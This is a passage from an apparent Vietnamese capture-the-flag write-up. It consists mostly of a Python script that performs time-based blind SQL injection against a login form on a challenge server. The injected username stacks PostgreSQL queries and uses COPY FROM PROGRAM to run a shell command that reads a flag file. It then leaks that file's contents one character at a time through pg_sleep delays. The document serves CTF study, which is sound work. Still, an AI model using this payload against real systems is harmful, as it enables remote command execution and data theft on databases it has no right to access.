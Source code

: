```

        # Calculate the response time
        response_time = end_time - start_time

        # Check if the response time is approximately 5 seconds
        if response_time >= 5:
            flag += c
            print("\n","The FLAG is:",flag)
            break

print("finished!!!!!")

```

= FLag là `flagOfmBj.txt`

<img width="672" height="375" alt="image" src="https://github.com/user-attachments/assets/fb1c5186-87ce-4353-8239-a8befda76f9a" />

= Đọc flag:

```
import requests
import time

charset = 'QWERTYUIOPASDFGHJKLZXCVBNMabcdefghijklmnopqrstuvwxyz.0123456789_!@#$%^&*()}{ '
flag = ''

burp0_url = "http://103.97.125.56:31153/index.php"
burp0_headers = {
    "Cache-Control": "max-age=0",
    "Accept-Language": "en-US",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://103.97.125.56:31153",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.89 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://103.97.125.56:31153/",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}
for index in range (1,100):
    for c in charset:
        burp0_data = {
            "username": f"9999';DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'cat /flagOfmBj.txt';select case when substring(cmd_output,{index},1)='{c}' then pg_sleep(5) else pg_sleep(0) end FROM cmd_exec limit 1;DROP TABLE IF EXISTS cmd_exec;-- ",
            "password": "2"
        }

        print("dang test ki tu thu ",index," :",c,end="\r")
        
        start_time = time.time()
        response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
        end_time = time.time()

        # Calculate the response time
        response_time = end_time - start_time

        # Check if the response time is approximately 5 seconds
        if response_time >= 5:
            flag += c
            print("\n","The FLAG is:",flag)
```